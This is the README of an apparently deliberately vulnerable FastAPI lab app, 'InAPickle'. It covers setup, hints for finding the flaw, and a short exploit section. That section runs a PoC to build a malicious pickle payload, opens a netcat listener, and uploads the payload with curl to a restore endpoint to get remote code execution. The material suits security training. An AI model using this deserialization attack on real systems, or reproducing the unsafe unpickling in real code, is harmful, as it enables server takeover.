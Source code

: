 # InAPickle

## Requirements

Local Build:

- Python 3

- Python virtualenv

    ```bash
    python3 -m pip install --user virtualenv
    ```

Docker Build:

- Docker

## Install and Start FastAPI Locally

1. Clone this repo:

    ```bash
    git clone https://github.com/bluemountaincyber/inapickle
    cd inapickle
    ```

2. Start virtual environment:

    ```bash
    python3 -m virtualenv .venv
    . .venv/bin/activate
    ```

3. Install pip packages:

    ```bash
    pip install -r requirements.txt
    ```

4. Start FastAPI with uvicorn:

    ```bash
    uvicorn main:app --reload
    ```

5. App should now be reachable at http://localhost:8000.

## Install and Start FastAPI with Docker

1. Clone this repo:

    ```bash
    git clone https://github.com/bluemountaincyber/inapickle
    cd inapickle
    ```

2. Build docker image:

    ```bash
    docker build -t inapickle .
    ```

3. Start inapickle container:

    ```bash
    docker run -it --rm -p 8000:8000 --name inapickle inapickle
    ```

## Clues that this is exploitable

1. The Pickle icon...

2. The `/docs` page can be found usin `dirb` with the default wordlist (`common.txt`).

3. The `/docs` page is auto-generated and contains descriptions of methods and schemas. This explains that the backup/restore file is pickled Python data.

## Exploit

1. Edit the command you wish to run on the victim server (line 6 in poc.py):

    ```bash
    vim inapickle/poc.py
    ```

2. Run PoC script (generates inapickle/payload.txt):

    ```bash
    python3 inapickle/poc.py
    ```

3. (Optional) Set up listener. For example:

    ```bash
    nc -nlvp 4444
    ```

4. Perform remote code execution:

    ```bash
    curl -L -F 'file=@inapickle/payload.txt' localhost:8000/restore-sqlite
    ```